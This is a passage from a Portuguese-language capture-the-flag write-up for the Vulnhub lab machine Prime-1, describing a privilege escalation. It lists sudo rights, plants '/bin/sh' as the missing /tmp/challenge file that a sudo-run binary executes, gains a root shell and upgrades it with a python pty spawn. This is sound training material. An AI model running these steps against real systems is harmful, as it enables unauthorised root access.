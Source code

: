 
* Listamos os binarios que podem ser executados com o sudo

```bash
sudo -l
```

![](/assets/img/Vulnhub/Prime-1/sudo-l-saket.png)




* Ao executar o binario e exibido uma mensagem de afronta e um erro de "not foud" do arquivo **/tmp/challenge**

![](/assets/img/Vulnhub/Prime-1/challenge.png)


* Provavelmente esse arquivo que nao foi encontrado sera executado como root. Entao vamos criar esse arquivo para nos enviar um shell e consequentemente viraremos **ROOT**!

```bash
echo "/bin/sh" > /tmp/challenge
chmod +x /tmp/challenge
cat /tmp/challenge
sudo /home/victor/undefeated_victor
python -c "import pty;pty.spawn('/bin/bash')"
id
```

![](/assets/img/Vulnhub/Prime-1/criando_challenge_virando_root.png)
